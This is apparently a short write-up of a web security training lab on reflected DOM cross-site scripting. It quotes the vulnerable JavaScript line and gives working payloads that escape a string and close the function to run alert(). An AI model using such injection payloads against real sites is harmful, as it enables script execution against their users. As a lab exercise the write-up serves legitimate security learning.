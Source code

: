 # Lab: Reflected DOM XSS

URL: https://0a0700590432221b82b4471a0059003b.web-security-academy.net/?search=aaaaaaaa

![](./Images/img1.png)

# Testing the fields:

![](./Images/img2.png)

![](./Images/img3.png)

# Exploitation:

URL: view-source:https://0a0700590432221b82b4471a0059003b.web-security-academy.net/resources/js/searchResults.js

![](./Images/img4.png)

We have to escape:

```js
h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
```

Payload:

```
\"+alert(1)//
```

It did not work.

But if we force close the function with:

```
\"+alert(1)}//
```

![](./Images/img5.png)

```
\"+alert('XSS')}//
```

![](./Images/img6.png)